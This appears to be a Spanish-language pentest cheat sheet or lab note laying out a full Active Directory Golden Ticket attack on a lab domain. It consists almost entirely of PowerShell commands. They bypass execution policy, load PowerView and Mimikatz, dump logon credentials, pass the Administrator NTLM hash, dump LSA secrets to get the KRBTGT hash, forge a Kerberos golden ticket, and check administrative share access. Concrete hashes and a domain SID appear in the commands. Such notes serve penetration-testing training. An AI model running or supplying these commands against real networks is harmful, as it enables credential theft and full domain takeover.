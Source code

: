 **Mostar el ticket inyectado en la sesion**
```powershell
klist
```

**Mostar contenido via smb**
```powershell
ls \\prod.research.SECURITY.local\c$
```
#### [[GOLDEN TICKET]]
**Importar el modulo Powerview**
```powershell
# Dar permisos bypass
powershell -ep bypass

# Importar modulo Powerview
. .\PowerView.ps1
```

**Extraer hash NTLM y SID del usuario Administrador**
```powershell
# Importar modulo Mimikatz
. .\Invoke-Mimikatz.ps1

# Extraer hash NTLM
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

**Realizar ataque PtH**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5dae3909"'
```

**Desde el cmd del PtH, recuperamos el hash de la cuenta de servicio KRBTGT**
```powershell
# Convertimos la cmd a powershell
powershell

# Directorio de herramientas
cd C:\Tools

# Dar permisos bypass
powershell -ep bypass

# Importar modulo Mimikatz
. .\Invoke-Mimikatz.ps1

# "lsadump::lsa" vuelca los secretos de LSA, y "/patch" hace que Mimikatz parchee el proceso para permitir la exportación de secretos.
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName prod.research.security.local
```

**Generar Golden Ticket**
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:research.security.local /sid:S-1-5-21-1693200156-3137632808-1858025440 /krbtgt:0e3cab3ba66afddb664025d96a8dc4d2 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

**Mostar el ticket inyectado en la sesion**
```powershell
klist
```

**Mostar contenido via smb**
```powershell
dir \\prod.research.SECURITY.local\c$
```


